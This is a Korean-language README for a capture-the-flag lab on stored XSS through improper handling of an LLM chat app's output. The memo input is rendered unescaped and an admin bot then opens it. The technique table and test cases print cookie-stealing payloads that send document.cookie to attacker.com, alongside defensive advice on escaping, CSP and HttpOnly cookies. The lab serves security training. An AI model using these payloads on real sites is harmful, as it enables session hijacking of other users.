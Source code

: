 # 🧩 CTF 시나리오 05: 부적절한 출력 처리 (Improper Output Handling / XSS)

<br>

## 📌 시나리오 ID

`SCENARIO_05`

## 🧠 시나리오 개요

글로벌 IT 기업 LLL Corporation은 고객 감정 케어를 위해 'AI 메모 응원 시스템'을 도입하였다. 공격자는 메모 내용에 악성 XSS 스크립트를 삽입한다. 해당 메모는 정상적인 UI를 통해 등록되고, AI 응답까지 생성되어 출력된다. J대리가 이를 검토하면서 HTML 파일을 브라우저에서 열람하게 되고, 삽입된 JavaScript 코드가 실행되어 document.cookie 값(예: admin_session=j대리_secret_cookie_12345)을 공격자에게 전송한다. 공격자는 탈취한 쿠키를 통해 인증을 우회하고 flag를 획득한다.

사용자는 메모 작성란에 다음과 같은 XSS 페이로드를 삽입한다:
<script>sendToServer(document.cookie)</script>
이 페이로드는 HTML 응답으로 생성된 후, Selenium 브라우저를 통해 열람 중인 관리자 J대리의 브라우저에서 실행된다.

해당 스크립트는 document.cookie 값을 탈취하여 window.stolen_data 변수로 넘겨진다.

결과적으로 공격자는 admin_session=j대리_secret_cookie_12345 형식의 관리자 쿠키를 탈취할 수 있고, 이를 통해 인증 우회 및 최종 플래그 획득이 가능하다.

<br>

## 🎯 시나리오 목표

* 사용자 입력을 통한 악성 스크립트 삽입하기

* 관리자 권한을 가진 J 대리가 메모를 검토할 때 삽입한 악성 스크립트가 실행되도록 만들어 그의 브라우저에 저장된 세션 쿠키를 탈취하기

* 탈취한 쿠키 정보를 시스템 내 쿠키 인증 입력란에 제출하여 최종 플래그 획득하기

<br>

## 🛠️ UI 구성 요소

| 구성 요소 | 설명 |
|-----|-----|
| 👀 헤더 및 문제 설명 | 시나리오 제목, 설명 문구 표현 |
| 🎯 힌트 보기 버튼 | 버튼 클릭 시 힌트 메시지 표시 (공격 방향 가이드 제공) |
| 🧾 현재 메모 목록 | 등록된 메모와 AI 응원 메시지 목록을 확인할 수 있는 영역 |
| 💬 새 메모 작성 창 | 새 메모 내용 입력란 |
| 🤖 AI 응원 메시지 출력창 | AI가 생성한 응원 메시지를 보여주는 영역 |
| 🔑 쿠키 인증 입력창 | 탈취한 관리자 쿠키 값을 입력하여 플래그 인증을 시도하는 입력란 |
| 🏁 FLAG 제출창 | 획득한 flag를 입력하여 정답 여부 확인 |

<br>

## ⚙️ 시스템 프롬프트 요약

- 사용자가 작성한 메모 내용을 긍정적이고 따뜻한 한 줄 응원 메시지로 변경

- 간결하고 친근한 문장에 이모지를 포함하도록 안내

- AI는 항상 사용자의 감정을 이해하고 격려하는 태도로 응답

- 불필요한 장황한 설명 없이 핵심적인 응원의 말을 전달하는 데 집중

<br>

## 💥 공격 흐름 예시
### 1. 공격 기법

| 기법 | 설명 |
|-----------|------|
| `<script>` 삽입 | `<script>alert(1)</script>` 형태로 기본적인 XSS 실행                               |
| 쿠키 탈취         | `<script>location.href='http://attacker.com?c='+document.cookie</script>` |
| 이미지 오류 이벤트    | `<img src=x onerror=alert('XSS')>`                                        |
| HTML 엔티티 우회   | `&lt;script&gt;alert(1)&lt;/script&gt;`                                   |
| DOM 조작        | `<script>document.body.innerHTML='hacked'</script>`                       |

### 2. 동작 흐름

| 단계 | 설명 |
|-----------|------|
| 1  | 사용자가 메시지를 입력하면 `conversation_history`에 저장됨                                            |
| 2  | `ctf05_LLM_ask()` 함수가 GPT-3.5-turbo를 호출해 응답 생성                                        |
| 3  | `ctf05_generate_share_html()` 함수가 대화 내역을 HTML 파일로 변환함. 이때 사용자 입력이 escape되지 않고 그대로 삽입됨 |
| 4  | `ctf05_admin_bot_visit()` 함수가 관리자의 HTML 열람을 헤드리스 브라우저로 시뮬레이션함                         |
| 5  | 악의적 JavaScript가 실행되어 `document.cookie`를 통해 쿠키가 탈취됨 |

### 3. 위협 요소 및 대응 방안

| 위협 | 설명 | 대응 |
|-----------|------|------|
| 세션 쿠키 탈취         | 관리자 인증 우회 가능     | `HttpOnly`, `Secure` 속성 사용      |
| 관리자 권한 탈취        | 민감 정보 접근, 시스템 조작 | 사용자 입력 검증 및 출력 인코딩              |
| JavaScript 임의 실행 | 악성 행위 유도         | CSP(Content Security Policy) 적용 |

### 4. 보안 권장 사항

* 사용자 입력은 반드시 출력 전 `html.escape()` 처리 또는 Jinja2 autoescape 기능 사용
* CSP 적용을 통해 인라인 및 외부 스크립트 제한
* 모든 사용자 입력에 대한 서버 측 필터링 적용
* `HttpOnly`, `Secure` 쿠키 설정으로 브라우저 접근 차단

<br>

## ✅ 테스트 케이스 예시

| 입력 | 기대 응답 |
|-----|-----|
| `안녕하세요`                                                          | 정상 HTML 생성, XSS 없음  |
| `<script>alert(1)</script>`                                      | 관리자 브라우저에서 alert 실행 |
| `<img src=x onerror=alert('XSS')>`                               | 관리자 브라우저에서 alert 실행 |
| `<script>fetch('http://attacker.com?'+document.cookie)</script>` | 쿠키 탈취 가능            |

<br>

## 🧪 Flag 제출 방식

사용자는 획득한 Flag를 다음과 같이 제출합니다:

```
flag{answer}
```

정답이면 ✅ `"정답입니다!"` 출력  
오답이면 ❌ `"틀렸습니다."` 출력

<br>

## 🔐 모델 요구 조건

* 사용자로부터 받은 메모 내용을 바탕으로 긍정적이고 친근한 응원 메시지를 생성해야 함

* 모델은 사용자의 감정을 민감하게 파악하여 부정적인 상황에서도 희망적이고 힘이 되는 표현을 사용해야 함

* 불필요한 장황한 설명이나 부적절한 내용이 포함되지 않도록 주의해야 함

* AI 응답이 시스템에 바로 노출되어 XSS 취약점이 될 수 있음을 감안하여, 가능한 한 안전한 텍스트 생성에 중점을 두어야 함